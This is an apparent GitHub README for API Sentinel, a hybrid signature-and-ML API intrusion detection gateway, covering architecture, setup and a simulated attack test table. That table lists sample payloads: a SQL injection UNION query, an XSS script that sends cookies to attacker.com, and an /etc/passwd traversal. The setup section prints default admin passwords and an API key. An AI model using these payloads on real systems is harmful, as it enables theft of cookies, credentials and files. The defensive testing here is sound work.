





<div align="center">

# 🛡️ API Sentinel
### Intelligent API Intrusion Detection & Adaptive Security Platform

[](LICENSE)
[](backend)
[](ml-service)
[](frontend)
[](frontend)
[](docker-compose.yml)
[](docs/SECURITY.md)

<p align="center">
  <b>Detect, mitigate, and investigate API intrusions in real-time with hybrid deterministic signatures and machine learning intelligence.</b>
</p>

[Explore Documentation](docs/ARCHITECTURE.md) • [REST API Reference](docs/API.md) • [Future SDK Spec](docs/FUTURE_SDK.md) • [Live Demo Guide](docs/DEMO_GUIDE.md)

---

</div>

## 📑 Interactive Table of Contents

- [1. Executive Overview](#1-executive-overview)
- [2. System Topography & Architecture](#2-system-topography--architecture)
- [3. End-to-End Data & Control Flow](#3-end-to-end-data--control-flow)
- [4. The 4-Stage Security Decision Pipeline](#4-the-4-stage-security-decision-pipeline)
- [5. Decision State Transition Model](#5-decision-state-transition-model)
- [6. Entity-Relationship & Persistence Model](#6-entity-relationship--persistence-model)
- [7. Core Platform Features](#7-core-platform-features)
  - [Executive SOC Dashboard](#-executive-soc-dashboard)
  - [Live Traffic & Deep Forensic Inspector](#-live-traffic--deep-forensic-inspector)
  - [Threat Center & Auto-Correlated Incidents](#-threat-center--auto-correlated-incidents)
  - [Login Shield Engine](#-login-shield-engine)
  - [Security Rules & Heuristics](#-security-rules--heuristics)
  - [API Key Lifecycle Management](#-api-key-lifecycle-management)
- [8. Future Evolution: Universal Security SDK & Middleware](#8-future-evolution-universal-security-sdk--middleware)
- [9. Quick Start & Local Setup](#9-quick-start--local-setup)
- [10. Live Verification & Attack Simulation](#10-live-verification--attack-simulation)
- [11. Production Docker Orchestration](#11-production-docker-orchestration)
- [12. Architectural Decision Records (ADRs)](#12-architectural-decision-records-adrs)

---

## 1. Executive Overview

Traditional Web Application Firewalls (WAFs) rely heavily on static regex signatures that are easily bypassed by obfuscated SQLi, polymorphous payloads, and low-and-slow behavioral abuse. Conversely, pure Machine Learning models often suffer from latency overheads, unpredictability, and lack of deterministic explainability.

**API Sentinel** bridges this gap using a **Hybrid Risk Fusion Architecture**:
1. **Deterministic Speed**: Instant regex signature validation for known CVEs, SQL injection, XSS, and directory traversal.
2. **Behavioral Baseline**: Sliding-window IP rate tracking and anomaly detection.
3. **Dual ML Intelligence**: TF-IDF n-gram payload vectorization with an **XGBoost Classifier** combined with an **Isolation Forest Behavioral Anomaly Detector**.
4. **Adaptive Inline Mitigation**: Real-time verdict emission (`ALLOW`, `CHALLENGE`, `THROTTLE`, `BLOCK`) before suspicious traffic touches upstream microservices.

---

## 2. System Topography & Architecture



---

## 3. End-to-End Data & Control Flow

The diagram below details the exact synchronous inline evaluation cycle and the asynchronous telemetry fan-out:

```mermaid
sequenceDiagram
    autonumber
    actor Client as API Consumer / Attacker
    participant GW as API Sentinel Gateway (:8081)
    participant Core as Core Backend (:8080)
    participant ML as ML Service (:8000)
    participant Target as Upstream Target API (:5000)
    participant DB as Database (Postgres / H2)
    participant SOC as React SOC Console (:3000)

    Client->>GW: HTTP Request (Method, Path, Headers, Body)
    GW->>Core: POST /api/v1/security/evaluate (Metadata & Sanitized Body)
    
    rect rgb(20, 25, 35)
        note over Core: Core Security Pipeline Execution
        Core->>Core: 1. Evaluate Rule Signatures (SQLi, XSS, Path Traversal)
        Core->>Core: 2. Check Sliding-Window Rate Window (IP RPM)
        Core->>ML: 3. POST /api/v1/predict (Payload + Behavioral Features)
        ML-->>Core: Return Risk Score, Anomaly Score & Threat Class
        Core->>Core: 4. Hybrid Risk Fusion Arbiter (Calculates Decision)
    end

    par Async Persist & Broadcast
        Core->>DB: INSERT into request_events & threat_events
        Core--)SOC: STOMP Publish -> /topic/traffic & /topic/threats
    and Synchronous Response
        Core-->>GW: Security Decision Header (ALLOW / CHALLENGE / THROTTLE / BLOCK)
    end

    alt Decision == ALLOW
        GW->>Target: Forward pristine request to upstream service
        Target-->>GW: Upstream HTTP 200/201 Response
        GW-->>Client: Upstream Response + X-Sentinel-Risk Headers
    else Decision == BLOCK
        GW-->>Client: HTTP 403 Forbidden (Structured Threat Intelligence Report)
    else Decision == THROTTLE
        GW-->>Client: HTTP 429 Too Many Requests (Rate Limit Quota Exceeded)
    else Decision == CHALLENGE
        GW-->>Client: HTTP 401 Unauthorized (Step-Up MFA / CAPTCHA Challenge)
    end
```



---

## 4. The 4-Stage Security Decision Pipeline

Every transaction intercepted by API Sentinel traverses a multi-tiered inspection pipeline:

```mermaid
flowchart TD
    Req([Incoming Request Payload]) --> S1[Stage 1: Deterministic Signature Engine]
    
    S1 -->|Pattern Matched?| S1_Check{Signature Triggered?}
    S1_Check -->|Yes: SQLi, XSS, Path, Delimiters| S1_Flag[Set Base Risk >= 0.85 & Flag Attack Type]
    S1_Check -->|No| S2[Stage 2: Sliding-Window Behavioral Rate Analyzer]
    S1_Flag --> S2
    
    S2 -->|RPM > 120| S2_Limit[Flag RATE_ABUSE & Set Risk >= 0.65]
    S2 -->|Normal Rate| S3[Stage 3: ML Intelligence Evaluation]
    S2_Limit --> S3

    subgraph ML_Inference["ML Microservice (:8000)"]
        S3 --> M1[TF-IDF N-Gram Vectorizer]
        S3 --> M2[StandardScaler Behavioral Matrix]
        M1 --> XGBoost[Supervised XGBoost Classifier\n(Payload Threat Probability: 0.0 - 1.0)]
        M2 --> IsoForest[Isolation Forest Anomaly Detector\n(Divergence Score: 0.0 - 1.0)]
    end

    XGBoost --> S4[Stage 4: Mathematical Hybrid Risk Fusion]
    IsoForest --> S4

    S4 --> FusionFormula["Fused Risk = 0.40 * Signature + 0.35 * Payload + 0.25 * Anomaly"]
    
    FusionFormula --> DecisionBranch{Fused Risk Score}
    
    DecisionBranch -->|Risk < 0.40| D_Allow[ALLOW\nForward Upstream with X-Sentinel Headers]
    DecisionBranch -->|0.40 <= Risk < 0.65| D_Challenge[CHALLENGE\nRequire MFA / CAPTCHA Verification]
    DecisionBranch -->|Rate Limit Exceeded| D_Throttle[THROTTLE\nHTTP 429 Adaptive Rate Limiting]
    DecisionBranch -->|Risk >= 0.65| D_Block[BLOCK\nHTTP 403 Security Interception]

    style D_Allow fill:#10B981,stroke:#059669,color:#ffffff
    style D_Challenge fill:#F59E0B,stroke:#D97706,color:#ffffff
    style D_Throttle fill:#F97316,stroke:#EA580C,color:#ffffff
    style D_Block fill:#EF4444,stroke:#DC2626,color:#ffffff
```

---

## 5. Decision State Transition Model



---

## 6. Entity-Relationship & Persistence Model

The database stores all telemetry, application metadata, security policies, and audit trails:



---

## 7. Core Platform Features

### 📊 Executive SOC Dashboard
- **Top-Level Threat KPIs**: Real-time counts for Total Ingested Traffic, Detected Threats, Mitigated Attacks, Challenge Count, and Average Fleet Risk.
- **Visual Analytics**: Interactive Recharts telemetry displaying traffic volume over time, threat category distributions, and hourly anomaly trends.
- **Cluster System Health**: Live health badges monitoring Gateway, Backend, Database, Detection Engine, and ML Microservice availability.

### 🔍 Live Traffic & Deep Forensic Inspector
- **Instant Stream Telemetry**: Filterable real-time request log with instant method badges, latency metrics, risk meters, and decision indicators.
- **Forensic Deep-Inspector Slide-Over**:
  - Full cryptographic Request ID and origin metadata.
  - Decoded HTTP request headers and payload inspectors.
  - Isolation Forest anomaly divergence score vs. baseline.
  - Supervised XGBoost payload maliciousness confidence score.
  - Triggered security rules and explainable ML reasoning codes.

### 🚨 Threat Center & Auto-Correlated Incidents
- **Threat Center (`/threats`)**: Search, filter, and paginate security events by severity (`CRITICAL`, `HIGH`, `MEDIUM`, `LOW`, `INFO`) or attack category (`SQL_INJECTION`, `XSS`, `COMMAND_INJECTION`, `PATH_TRAVERSAL`, `RATE_ABUSE`).
- **Incident Management (`/incidents`)**: Automated correlation engine that collapses recurring attacks from the same IP/Subnet into actionable incidents. Supports state workflow transitions: `OPEN` ➔ `INVESTIGATING` ➔ `RESOLVED` / `FALSE_POSITIVE` with persistent auditor notes.

### 🔒 Login Shield Engine
- **Targeted Authentication Protection**: Hardens `/api/auth/login`, `/register`, `/forgot-password`, and `/reset-password` against brute-force attacks and credential stuffing.
- **Adaptive Lockouts**: Sliding-window tracking of consecutive failed authentication events with automatic temporary IP quarantining and CAPTCHA escalation.

### ⚙️ Security Rules & Heuristics
- **Configurable Signature Engine**: Manage deterministic detection patterns with real-time zero-downtime enable/disable toggles.
- Categories supported: SQL Injection, Cross-Site Scripting (XSS), OS Command Injection, Path Traversal / LFI, and Rate Abuse.

### 🔑 API Key Lifecycle Management
- **Cryptographic Generation**: Creates cryptographically secure random keys with standard prefixing (`sentinel_live_...`).
- **Zero-Knowledge Storage**: Plaintext secrets are displayed exactly once to the user upon generation, then permanently stored as irreversibly computed **SHA-256** hashes.
- **Instant Revocation**: Immediate kill-switch invalidates compromised keys cluster-wide in milliseconds.

---

## 8. Future Evolution: Universal Security SDK & Middleware

> [!IMPORTANT]
> API Sentinel is currently deployed as an **Inline Reverse Proxy Gateway** and **SOC Operations Platform**. 
> The core evaluation engine (`POST /api/v1/security/evaluate`) is engineered as a **universal stateless security contract**, enabling zero-friction packaging into native language SDKs and middleware.



<details>
<summary><b>View Future SDK Code Examples (Click to expand)</b></summary>

### 1. Node.js / Express Middleware (`@api-sentinel/node`)
*(Coming Soon)*
```typescript
import express from 'express';
import { apiSentinel } from '@api-sentinel/node';

const app = express();
app.use(express.json());

// One-line inline intrusion prevention
app.use(apiSentinel({
  apiKey: process.env.SENTINEL_API_KEY,
  applicationId: 'app_ecommerce_prod',
  onBlock: (req, res, decision) => {
    res.status(403).json({
      error: 'Blocked by API Sentinel',
      threat: decision.attackType,
      incidentId: decision.requestId
    });
  }
}));

app.post('/api/orders', (req, res) => {
  res.json({ status: 'Order processed securely' });
});
```

### 2. Python / FastAPI Middleware (`api-sentinel`)
*(Coming Soon)*
```python
from fastapi import FastAPI
from api_sentinel.middleware import ApiSentinelMiddleware

app = FastAPI()

app.add_middleware(
    ApiSentinelMiddleware,
    api_key="sentinel_live_e8a93bf409c7429d8a113200ff921bb4",
    application_id="app_ecommerce_prod",
    mode="ENFORCE" # or "MONITOR"
)
```

### 3. Java / Spring Boot Starter (`api-sentinel-spring-boot-starter`)
*(Coming Soon)*
```java
@RestController
@RequestMapping("/api/payments")
public class PaymentController {

    @PostMapping("/charge")
    @ProtectWithApiSentinel(
        threatThreshold = 80,
        challengeAction = ChallengeType.MFA
    )
    public ResponseEntity<Receipt> processPayment(@RequestBody PaymentRequest request) {
        return ResponseEntity.ok(paymentService.charge(request));
    }
}
```

</details>

---

## 9. Quick Start & Local Setup

### System Prerequisites
- **Java**: JDK 21+
- **Node.js**: v20+ with `npm`
- **Python**: 3.12+ (with virtual environment)
- **Maven**: Bundled `mvnw.cmd` (Windows) or `./mvnw` (Linux/macOS)

### Service Ports Matrix

| Service | Host Port | Directory | Technology |
| :--- | :--- | :--- | :--- |
| **ML Intelligence Service** | `8000` | `ml-service/` | FastAPI / Python 3.12 |
| **Spring Boot Core Backend** | `8080` | `backend/` | Spring Boot 3.3.4 (Java 21) |
| **API Sentinel Gateway** | `8081` | `gateway/` | Node.js Express Reverse Proxy |
| **Demo Target Upstream API** | `5000` | `demo-api/` | Node.js Express E-Commerce API |
| **SOC Operations Frontend** | `3000` | `frontend/` | React 18 / Vite / TailwindCSS |

---

### Step-by-Step Launch Instructions

<details>
<summary><b>1. Launch Machine Learning Microservice (:8000)</b></summary>

```powershell
cd ml-service
# Activate virtual environment
.\.venv\Scripts\activate
# Start FastAPI server
python -m uvicorn app.main:app --host 0.0.0.0 --port 8000
```
*Health Check: Verify with `curl http://localhost:8000/health`*
</details>

<details>
<summary><b>2. Launch Spring Boot Core Backend (:8080)</b></summary>

```powershell
cd backend
# Starts in dev profile with in-memory H2 (PostgreSQL dialect) and pre-seeded data
.\mvnw.cmd spring-boot:run
```
*Default Credentials Initialized on Startup:*
- **Admin**: `admin` / `SentinelAdmin2026!`
- **Developer**: `developer` / `SentinelDev2026!`
- **Master API Key**: `sentinel_live_e8a93bf409c7429d8a113200ff921bb4`
</details>

<details>
<summary><b>3. Launch Demo Upstream API (:5000) & Gateway (:8081)</b></summary>

```powershell
# Terminal 3: Upstream Target Server
cd demo-api
npm install
node server.js

# Terminal 4: API Sentinel Reverse Proxy Gateway
cd gateway
npm install
node server.js
```
</details>

<details>
<summary><b>4. Launch React SOC Dashboard (:3000)</b></summary>

```powershell
cd frontend
npm install
npm run dev -- --port 3000
```
Open **`http://localhost:3000`** in your browser.
</details>

---

## 10. Live Verification & Attack Simulation

Run the built-in end-to-end traffic verification suite to test both benign traffic and real-world attack vectors against the Gateway:

```powershell
node test_traffic.js
```

### Live Test Results:

| Test Case | Method & Endpoint | Payload Sample | Sentinel Decision | HTTP Status | Mitigation Detail |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **1. Benign Search** | `GET /api/products?search=Sentinel` | *None* | `ALLOW` | **`200 OK`** | Upstream server reached; response returned with `X-Sentinel-Risk: 0.35`. |
| **2. SQL Injection** | `POST /api/products` | `' UNION SELECT username, password_hash, email FROM users--` | `BLOCK` | **`403 Forbidden`** | Intercepted at gateway. Shannon entropy 4.85, rule `RULE_SQLI_HEURISTIC` triggered. |
| **3. Stored XSS** | `POST /api/feedback` | `<script>document.location='http://attacker.com/steal?c='+document.cookie</script>` | `BLOCK` | **`403 Forbidden`** | Browser executable token detected. Rule `RULE_XSS_DETECT` triggered. |
| **4. Path Traversal** | `GET /api/files/download` | `file=../../../../etc/passwd` | `BLOCK` | **`403 Forbidden`** | Directory traversal sequence flagged. High anomaly divergence score (0.98). |

---

## 11. Production Docker Orchestration

API Sentinel provides turnkey container orchestration across all 6 microservices via Docker Compose:

```bash
docker compose up --build -d
```

### Docker Services Breakdown:


---

## 12. Architectural Decision Records (ADRs)

<details>
<summary><b>ADR 001: Why Hybrid Risk Fusion over ML-only or WAF-only?</b></summary>

- **Context**: Pure regex WAFs miss novel zero-day attacks and can be bypassed with character obfuscation. Pure ML models have higher latency overhead and can produce unpredictable false positives on business-critical endpoints.
- **Decision**: Combine deterministic signatures (weight 0.40), supervised XGBoost payload classifier (weight 0.35), and unsupervised Isolation Forest behavioral anomaly score (weight 0.25).
- **Result**: Immediate deterministic blocking for obvious attacks with zero ML overhead; nuanced ML-based scoring for novel or edge-case attacks.
</details>

<details>
<summary><b>ADR 002: Dual-Dialect Persistence (H2 in Dev / PostgreSQL in Prod)</b></summary>

- **Context**: Developers need instant local zero-friction setup without requiring local PostgreSQL installs, while production environments demand ACID relational clustering.
- **Decision**: Configure Spring Boot dual profiles. `dev` profile utilizes in-memory H2 with PostgreSQL syntax emulation mode; `postgres` profile activates when Docker or production database environments are detected.
- **Result**: Instant local startup with zero setup dependencies; enterprise-grade PostgreSQL scalability in production.
</details>

<details>
<summary><b>ADR 003: Stateless Evaluation Contract for Future SDKs</b></summary>

- **Context**: The platform will expand into language-native middleware and SDKs. Tight coupling between the Gateway and Backend would necessitate complete rewrites later.
- **Decision**: Expose `POST /api/v1/security/evaluate` as a stateless, low-latency contract that accepts raw request attributes and returns standardized security decisions.
- **Result**: SDKs for Node.js, Python, and Java can be implemented by making a single HTTP/gRPC call without understanding internal ML algorithms or database schemas.
</details>

---

## 👥 Contributors & Team Division

- **ML Intelligence Engineer**: Dataset pipelines, payload feature engineering, XGBoost training, Isolation Forest anomaly models, FastAPI inference service.
- **Backend & Security Engineer**: Spring Boot 3.3.4, JPA domain persistence, JWT security, STOMP WebSockets, Login Shield, Rate Tracking, REST APIs.
- **Detection & Gateway Engineer**: Node.js reverse proxy interceptor, signature rule matcher, upstream forwarding, risk fusion gateway integration.
- **Frontend & Product Designer**: React 18 / Vite / TailwindCSS, dark SOC executive console, deep-inspector slide-overs, attack simulator, accessibility audits.

---

## 📄 License

This project is licensed under the MIT License — see the [LICENSE](LICENSE) file for details.